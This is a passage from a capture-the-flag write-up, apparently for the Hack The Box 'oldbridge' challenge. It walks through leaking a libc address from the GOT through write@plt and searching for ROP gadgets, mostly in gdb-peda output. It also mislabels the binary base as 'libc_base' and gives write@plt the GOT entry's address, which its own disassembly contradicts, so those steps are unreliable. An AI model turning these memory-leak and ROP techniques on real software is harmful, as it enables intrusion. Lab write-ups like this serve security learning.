 The address we want to leak is some entry in the GOT table. Specifically we'll use `write@plt` to get the GOT entry of `write` so we can learn the address of that function in libc after the linker placed it there.

```
gdb-peda$ x/3i 0x555555554910
   0x555555554910 <write@plt>:	jmp    QWORD PTR [rip+0x20170a]        # 0x555555756020
   0x555555554916 <write@plt+6>:	push   0x1
   0x55555555491b <write@plt+11>:	jmp    0x5555555548f0
gdb-peda$ x/gx 0x555555756020
0x555555756020:	0x00007ffff7af4140
gdb-peda$ disas 0x00007ffff7af4140
Dump of assembler code for function __GI___libc_write:
   0x00007ffff7af4140 <+0>:	lea    rax,[rip+0x2e07b1]        # 0x7ffff7dd48f8 <__libc_multiple_threads>
   0x00007ffff7af4147 <+7>:	mov    eax,DWORD PTR [rax]
   0x00007ffff7af4149 <+9>:	test   eax,eax
   0x00007ffff7af414b <+11>:	jne    0x7ffff7af4160 <__GI___libc_write+32>
   0x00007ffff7af414d <+13>:	mov    eax,0x1
   0x00007ffff7af4152 <+18>:	syscall 
```

The address we're after is `0x555555756020` which contains the address of `write` at libc.
The address we want to leak is `0x555555756020 - libc_base = 0x202020` bytes from the start of `libc_base` *which we have already learned*. 

Now we know all of our arguments for `write`:
1. File descriptor = 0x4
2. Address of buffer: `libc_base + 0x202020`
3. Length = 0x8 (We want a QWORD, so 8 bytes)
4. The address of the function we want to call: `write@plt` is `libc_base + 0x202020` as well and we can call it

The last thing we need is to find a way to load these argument from the stack to the registers. Because as we remember, the arguments in this binary as **passed via registers**. So we have to find some gadgets in the .text section of the binary that would:
1. pop rdi (first argument)
2. pop rsi (second argument)
3. pop rdx (third argument)

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555556000 r-xp	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x0000555555755000 0x0000555555756000 r--p	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x0000555555756000 0x0000555555757000 rw-p	/from_host/programming2/challenges/hack_the_box/oldbridge/oldbridge
0x00007ffff79e4000 0x00007ffff7bcb000 r-xp	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bcb000 0x00007ffff7dcb000 ---p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcb000 0x00007ffff7dcf000 r--p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd1000 rw-p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 rw-p	mapped
0x00007ffff7dd5000 0x00007ffff7dfc000 r-xp	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ff1000 0x00007ffff7ff3000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$ ropsearch "pop rsi" 0x0000555555554000 0x0000555555556000
Searching for ROP gadget: 'pop rsi' in range: 0x555555554000 - 0x555555556000
0x0000555555554f71 : (b'5e415fc3')	pop rsi; pop r15; ret
```
